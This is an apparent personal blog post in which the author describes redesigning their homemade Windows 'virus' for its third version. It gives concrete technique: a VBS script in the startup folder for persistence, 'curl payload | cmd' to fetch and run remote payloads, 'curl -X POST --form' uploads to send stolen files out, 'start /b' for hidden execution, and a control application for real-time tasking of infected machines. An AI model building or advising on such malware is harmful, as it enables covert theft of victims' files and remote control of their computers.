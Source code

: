 
Some more time has passed away. Now it's 4 months since the debut of version 2 and I have been messing around with even more stuff and pretty much notice that I was complicate things wayyyy too much in the previous 2 versions, and that I have sort of fallen into several traps: designing a thing that shouldn't exist (aka subsystem optimization) and trying to control something that I don't understand. So, let's talk about it.

Version 3 pretty much has no similarity with the previous 2. Let's get that right out in the open. So, this is an opportunity to rewrite and rethink everything. But again, some of the ideas in the previous versions still have their merits. To reiterate, our virus should have 2 components: a base directory to rest within and a vbs script inside the startup folder to restart the virus every time the host computer restarts. Once the main script in the startup folder has been started, it wil download additional scripts from our website, then execute those and send the results back. From the second version, it's apparent that we need some sort of application to control all of these influx of data. If not then we will have to deal with the intricacies of the virus itself, and managing all the raw code is unpleasant at best, and a complete waste of time and evergy at worst.

But what's wrong with the previous versions? Let's start with version 1. There's this H.vbs file, which is supposed to run other batch scripts secretly and the batch code can sort of invoke that script to do that. There's this C.bat and C.txt, all to serve the purpose of counting how many cycles of shutdown and startup has taken place, to know when to download and when to mail the results back. D.bat is to download files, which actually invokes a PowerShell command to download it underneath. Z.vbs is a vbs script to zip the output folder, so we can sort of steal any files that we want via the S.vbs script. It is used to talk to yahoo's mail servers, authenticate a mail account we specifically created just to send the results out. On the core side of it, there's that SU.vbs that sits inside the startup folder, which will call SU.bat in the home folder, which will invoke D.bat or M3.bat depending on the count cycle number.

Now this is just too much going on, and there're fucking tight couplings in there. Scripts are expected to be there and to call each other in a convoluted way. Why are there 2 files in charge for only keeping track of which cycle it is? Why is there a separate D.bat? Some of these problems are solved in version 2, and that it sort of make the cycle from 4 days to 2 days per attack, and it cleans up things a bit, like merging D.bat into the home directory's entry point itself. Version 2 also has that nice little GUI, with a lot of tools there to interpret the results sent back, like turning a list of files into a json format, which then can be compared and merged with other directory structures. It also has this sort of quasi "compiler" as a quality of life means to further developing the virus, in particular, the init file so that I don't have to keep escaping the god damn quotes and dots and whatnot.

Overtime, I sort of have fallen into the trap of optimizing something that shouldn't exist, and I sort of haven't stared closely into this enough to realize that so much of this is unnecessary. And as I read more, it seems like there is a possibility to rethink all of this. So, let's now throw away stuff that shouldn't exist, shall we?

So, the concept of counting cycles of shutdown and startup, should we keep it? No. Why should we even keep track of it at all. Why shouldn't we just download and execute the payload, and then zip everything up and sending back the results. Why did we included the concept in the first place? Well, because I was afraid that there would be some hassle in downloading the script. It is because whenever I invoke the download command, it starts up a new process, and I can never quite know when the download has succeeded or not. So, wait until the next startup cycle seems to be a good idea.

To throw away that worry, we sort of have to use another tool that's synchronous with our virus thread. One day, when I was learning about docker, I saw someone just do "curl get.docker.com \| sh" to install docker. What this does is take the script in raw text that's on the docker website and pipes it into a shell. What struck me about this is 2 things: The command to install was insanely short. With it, the convenience to install also went through the roof. The other thing is that I don't have to worry about escape characters. In the original virus, the init script echos commands into files, and thus, those commands must be escaped in order for this to work. Now, I can just curl it and redirect that into another file with no hassle at all. It's a wonderful thing. So from now on, we can just curl the payload and execute it right away, using "curl payload \| cmd". Curl is also synchronous, so we have control over timing.

When we don't have to worry about escape characters, then we can essentially get rid of the compiling process altogether. Why compile when the initial reason to compile is to escape the characters? Why can't we just curl every additional scripts and that's pretty much it? Well, let's do that then. Next is the concept of zipping files. Why do we need this? To steal files, of course. How else would you do this instead of putting stolen files inside a folder, zipping it and sending an email back? Well, it sort of seems that I can send requests with files attached, because I can send my files over messenger or gmail. And while building version 2, I actually implemented that with the zipped directory structure. Let's see if we can do this... looking through curl's manual..... Yes we can! We can actually do something like 'curl -X POST --form "file=@filename.ext" url'. Woah great. Let's get rid of Z.vbs and S.vbs then.

How about H.vbs? Can we get rid of it? Can we start a new batch script from a batch script that will be hidden? Yes we can! "start /b script" does our job just as we wanted to. So, executing a batch script now looks like "start /b batchfile", and executing batch code now looks like "start /b cmd.exe /c code". We still need to start the first batch script hidden though, and this is sort of a limitation that I can't find a solution to. But, we can start the first batch script using vbs from startup, no problem at all, and H.vbs originally is just there so we can start other batch scripts. So, let's get rid of that too.

All of these might seem unnatural. Like, if you have not known about "curl" or "start", would you be able to still have this mental model and this idea? Well yes you can. When I built the first virus, I was thinking of a clear path to my goal, with the tools that I already know, then just sort of execute that goal and figure out the intricacies. A few weeks ago, I started think hard about how to get rid of stuff in version 1 and 2, and just google the capabilities that I want. Googling returns pretty much exactly what I wanted so I started working toward this version.

With these improvements, how does the attacking process looks like now?








Because we have deleted the counter feature, each viruses will now tell the application that it is alive, scan for new payloads, download those payloads and then starts a worker process to deal with that payload. After the payload is executed, the worker process will update the application with the results, and we can send any sort of files that we want back. This means that we can control the virus real time and can monitor it real time. And because the virus main thread forks worker threads to deal with the payload, if for some reason the payload gets nasty and is stopped by an antivirus, or for some error, the payload just pauses indefinitely, the virus couldn't care less and just moves on, freeing up to future attacks.
